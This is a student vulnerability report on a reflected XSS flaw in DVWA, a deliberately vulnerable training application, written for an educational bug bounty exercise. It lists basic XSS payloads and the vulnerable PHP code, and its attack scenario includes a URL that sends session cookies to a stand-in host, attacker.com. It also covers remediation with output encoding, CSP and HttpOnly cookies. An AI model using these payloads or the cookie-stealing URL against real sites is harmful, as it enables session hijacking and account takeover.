



# Vulnerability Report: Reflected XSS

## Executive Summary
A reflected Cross-Site Scripting (XSS) vulnerability was discovered in the DVWA application that allows an attacker to execute arbitrary JavaScript in a victim's browser.

## Vulnerability Details

**Severity**: Medium (CVSS 6.1)
**Type**: Reflected Cross-Site Scripting (XSS)
**Location**: http://localhost/vulnerabilities/xss_r/
**Parameter**: name
**CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
**Date Discovered**: 2026-01-16
**Discovered By**: Lakshan

## Description
The application does not properly sanitize user input in the 'name' parameter, allowing attackers to inject malicious JavaScript code that executes in the context of other users' browsers. When a user submits input through the form, it is immediately reflected in the page without any encoding or filtering, resulting in JavaScript execution.

## Proof of Concept

### Step-by-Step Reproduction:
1. Navigate to: http://localhost/vulnerabilities/xss_r/
2. Ensure security level is set to "Low" (DVWA Security → Low)
3. Enter the following payload in the "What's your name?" input field:
```html
   <script>alert('XSS')</script>
```
4. Click the "Submit" button
5. Observe JavaScript alert box appears with message "XSS"
6. Check page source (Ctrl+U) to confirm script injection in HTML

### Payloads Tested:

**Payload 1: Basic Alert**
```html
<script>alert('XSS')</script>
```
Result: ✓ Alert box displayed

**Payload 2: Cookie Theft Simulation**
```html
<script>alert(document.cookie)</script>
```
Result: ✓ Session cookie displayed in alert

**Payload 3: Image Tag XSS**
```html

```
Result: ✓ JavaScript executed via image error event

**Payload 4: SVG Tag XSS**
```html
<svg onload=alert('XSS')>
```
Result: ✓ JavaScript executed on SVG load

### Screenshots:

*Screenshot showing payload entered in input field*


*Screenshot showing JavaScript alert execution*


*Screenshot showing injected code in page source or network response*


*Screenshot demonstrating cookie access via XSS*

## Vulnerable Code Analysis

**Likely vulnerable code:**
```php
<?php
// Vulnerable implementation
$name = $_GET['name'];
echo "Hello " . $name;  // Direct output without encoding!
?>
```

**Why it's vulnerable:**
- User input from `$_GET['name']` is directly output to the page
- No HTML encoding or sanitization applied
- Special characters like `<`, `>`, and quotes are not escaped
- Browser interprets the input as HTML/JavaScript code

## Impact Analysis

### CVSS v3.1 Score: 6.1 (MEDIUM)

**Vector String**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N

**Breakdown:**
- **Attack Vector (AV)**: Network - Can be exploited remotely
- **Attack Complexity (AC)**: Low - No special conditions required
- **Privileges Required (PR)**: None - No authentication needed
- **User Interaction (UI)**: Required - Victim must click malicious link
- **Scope (S)**: Changed - Affects resources beyond vulnerable component
- **Confidentiality Impact (C)**: Low - Limited information disclosure
- **Integrity Impact (I)**: Low - Limited ability to modify data
- **Availability Impact (A)**: None - No impact on availability

### Potential Consequences:

1. **Session Hijacking**
   - Attacker steals session cookies via JavaScript
   - Gains unauthorized access to victim's account
   - Can perform actions as the victim

2. **Phishing Attacks**
   - Inject fake login forms into trusted pages
   - Steal user credentials
   - Appears legitimate due to correct domain

3. **Content Manipulation**
   - Modify page content to spread misinformation
   - Deface the website temporarily
   - Inject malicious advertisements

4. **Malware Distribution**
   - Redirect users to malicious websites
   - Download malware onto victim's computer
   - Exploit browser vulnerabilities

5. **Keylogging**
   - Inject JavaScript keylogger
   - Capture all keystrokes on the page
   - Steal sensitive information like passwords

### Attack Scenario Example:

**Step 1:** Attacker crafts malicious URL:
```
http://localhost/vulnerabilities/xss_r/?name=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

**Step 2:** Attacker sends link to victim via:
- Email (phishing)
- Social media message
- Forum post
- SMS/instant messaging

**Step 3:** Victim clicks the link

**Step 4:** Malicious script executes in victim's browser:
- Reads session cookie
- Sends cookie to attacker's server
- Victim doesn't notice anything suspicious

**Step 5:** Attacker uses stolen cookie:
- Opens browser
- Sets cookie value to stolen PHPSESSID
- Accesses application as the victim
- Full account takeover achieved

## Remediation

### Recommended Fixes:

**1. Output Encoding (PRIMARY FIX)**
```php
<?php
// Secure implementation
$name = $_GET['name'];
echo "Hello " . htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
?>
```

**Benefits:**
- Converts `<` to `&lt;` and `>` to `&gt;`
- Prevents browser from interpreting input as HTML/JavaScript
- Simple one-line fix
- No breaking of legitimate functionality

**2. Input Validation**
```php
<?php
// Additional security layer
$name = $_GET['name'];

// Remove HTML tags completely
$name = strip_tags($name);

// Or validate against whitelist
if (preg_match('/^[a-zA-Z0-9\s]+$/', $name)) {
    echo "Hello " . htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
} else {
    echo "Invalid input - only letters and numbers allowed";
}
?>
```

**3. Content Security Policy (CSP)**

Add HTTP header:
```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

In PHP:
```php
<?php
header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'");
?>
```

**Benefits:**
- Blocks inline JavaScript execution
- Only allows scripts from same domain
- Defense-in-depth approach

**4. Security Headers**

Add these HTTP headers:
```
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
```

In PHP:
```php
<?php
header("X-XSS-Protection: 1; mode=block");
header("X-Content-Type-Options: nosniff");
header("X-Frame-Options: DENY");
?>
```

**5. HTTPOnly Cookie Flag**
```php
<?php
setcookie("PHPSESSID", $session_id, [
    'httponly' => true,  // Prevents JavaScript access to cookies
    'secure' => true,    // Only send over HTTPS
    'samesite' => 'Strict'  // Prevents CSRF attacks
]);
?>
```

### Implementation Priority

**Priority**: MEDIUM
**Recommended Timeline**: Fix within 30 days

**Immediate Action:**
1. Apply htmlspecialchars() to all output (1 day)
2. Add CSP headers (1 day)
3. Test thoroughly (2 days)

**Short-term:**
1. Implement input validation (1 week)
2. Security headers deployment (1 week)
3. Code review of similar vulnerabilities (2 weeks)

**Long-term:**
1. Security training for developers
2. Automated security scanning in CI/CD
3. Regular penetration testing

## Testing Evidence

**Test Date**: 2026-01-16
**Tester**: Lakshan
**Environment**: DVWA v1.10, Security Level: Low
**Browser**: Firefox
**Tools**: Manual testing, Browser Developer Tools

**Files:**
- reflected-xss-poc.html (Proof of concept file)
- Screenshots (5 images documenting exploitation)
- xss-findings.txt (Detailed testing notes)

## References

- **OWASP XSS Prevention Cheat Sheet**: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- **CWE-79**: Improper Neutralization of Input During Web Page Generation - https://cwe.mitre.org/data/definitions/79.html
- **OWASP Top 10 2021**: A03:2021 - Injection - https://owasp.org/Top10/A03_2021-Injection/
- **CVSS v3.1 Calculator**: https://www.first.org/cvss/calculator/3.1
- **MDN XSS Guide**: https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting

## Report Information

- **Report ID**: VULN-001
- **Discovered by**: Lakshan
- **Date Discovered**: 2026-01-16
- **Date Reported**: 2026-01-16
- **Application**: DVWA (Damn Vulnerable Web Application) v1.10
- **Environment**: Local Development / Training
- **Status**: Confirmed - Exploitable
- **Classification**: Educational/Training Exercise
- **Distribution**: Instructor/Academic Use Only

---

*This vulnerability report was prepared as part of an educational bug bounty simulation project. All testing was conducted in a controlled laboratory environment with explicit authorization.*